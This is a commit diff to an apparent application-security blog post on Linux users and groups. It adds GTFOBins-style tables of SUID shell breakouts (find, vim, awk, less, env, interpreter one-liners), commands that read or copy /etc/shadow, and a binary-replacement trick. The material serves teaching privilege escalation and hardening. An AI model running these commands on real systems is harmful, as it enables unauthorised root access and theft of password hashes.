

Before and after one commit to appsecstories/appsecstories.github.io, a Jekyll site: the page built from _posts/2025-11-10-1-Linux-security-Users-and-Groups.md, in a window 1280 px wide and 900 px high, scrolled down 2568 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2025-11-10-1-Linux-security-Users-and-Groups.md

```diff
--- a/_posts/2025-11-10-1-Linux-security-Users-and-Groups.md
+++ b/_posts/2025-11-10-1-Linux-security-Users-and-Groups.md
@@ -133,6 +133,27 @@ Even if DAC permissions allow access (e.g., root reading a file), MAC provides a
 | **File Manipulators** | `cp`, `mv`, `tar`, `nano`, `zip` | Can read/write restricted files (like overwriting `/etc/passwd`). |
 | **Interpreters** | `python`, `perl`, `ruby`, `php` | Can import OS libraries to execute system shells. |
 
+| Binary | "The ""Breakout"" Command" | Why it works |
+| :--- | :--- | :--- |
+| find | `find . -exec /bin/sh -p \; -quit` | find has an -exec flag to run commands on every file it finds. We tell it to run a shell. |
+| vim | `vim -c ':!/bin/sh'` | Vim allows you to run OS commands using !.
+| awk | `"awk 'BEGIN {system(""/bin/sh"")}'"` | awk is a scripting language; system() executes a command. |
+| less | `less /etc/profile then type !/bin/sh` | less (and more) behaves like vi. Typing ! inside the pager executes a shell command. |
+| man | `man man then type !/bin/sh` | man uses a pager (like less) to display help. You can break out of the help screen into a shell. |
+| env | `env /bin/sh -p` | "env is designed to run programs in a modified environment. If SUID it runs them as root." |
+
+| Binary | "The ""Breakout"" Command" | Why it works |
+| :--- | :--- | :--- |
+| cp | cp /etc/shadow /tmp/shadow_copy | "If cp is SUID root it can read any file. You simply copy the protected file to a place you can read."
+| mv | mv /bin/sh /bin/ping | "You could replace a common binary (like ping) with a shell so the next time root runs ping they run your shell."
+| tar | tar -cf /tmp/shadow.tar /etc/shadow | "tar can archive any file it has access to. You archive the shadow file then extract it somewhere safe to read it."
+| nano | nano /etc/shadow | "Unlike vim nano usually doesn't have a ""shell escape"" but if it's SUID you can just open and edit system files directly."
+
+Python: `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
+Perl: `perl -e 'exec "/bin/sh";'`
+Ruby: `ruby -e 'exec "/bin/sh"'`
+PHP: `php -r "pcntl_exec('/bin/sh', ['-p']);"`
+
 
 ### ❓ Q&A: Default Permissions of GTFOBins
 **Q: What are the default permissions of these "GTFOBins" commands?**
```
